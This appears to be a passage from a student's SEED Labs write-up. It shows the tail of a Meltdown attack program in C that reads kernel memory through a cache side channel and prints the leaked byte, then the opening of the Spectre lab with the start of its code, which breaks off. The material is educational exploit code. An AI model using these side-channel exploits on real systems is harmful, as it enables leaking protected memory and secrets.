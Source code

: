 ```c=
      flushSideChannel();
  
      // Retry 1000 times on the same address.
      for (i = 0; i < 1000; i++) {
         ret = pread(fd, NULL, 0, 0);
         if (ret < 0) {
            perror("pread");
            break;
         }
  
         // Flush the probing array
         for (j = 0; j < 256; j++) 
            _mm_clflush(&array[j * 4096 + DELTA]);

         if (sigsetjmp(jbuf, 1) == 0) { 
             meltdown_asm(0xf9d34000+k); 
         }
         
         reloadSideChannelImproved();
      }

      // Find the index with the highest score.
      int max = 0;
      for (i = 0; i < 256; i++) {
         if (scores[max] < scores[i]) max = i;
      }

      printf("The secret value is %d %c\n", max, max);
      printf("The number of hits is %d\n", scores[max]);
   }
   return 0;
}
```
![](https://i.imgur.com/h91xpsx.png)

## Lab8 Specture Attack
講義: https://seedsecuritylabs.org/Labs_16.04/System/Spectre_Attack/
### task1 Read from Cache versus from Memeory (same as Lab7 task1)
### task2 Using Cache as a Side Channel (same as Lab7 task2)
### task3 Out-of-Order Execution and Branch Prediction 
```c=
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

int size = 10;
uint8_t array[256*4096];
uint8_t temp = 0;
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void flushSideChannel()
{
  int i;
  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
```